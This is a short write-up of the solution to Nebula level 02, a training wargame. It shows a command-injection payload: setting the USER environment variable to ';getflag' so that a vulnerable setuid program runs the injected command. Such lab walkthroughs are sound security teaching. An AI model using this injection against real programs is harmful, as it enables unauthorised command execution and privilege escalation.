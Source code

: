 .. _nebula02

.. role:: bash(code)
	  :language: bash

Nebula level 02
===============

Basic Information
-----------------

**Home Page** https://exploit-exercises.com/nebula/level02/

Solution
--------

Export a variable call :bash:`USER` like this:

:bash:`$export USER=";getflag"`

and then run :bash:`flag02`

:bash:`/home/flag02/flag02`

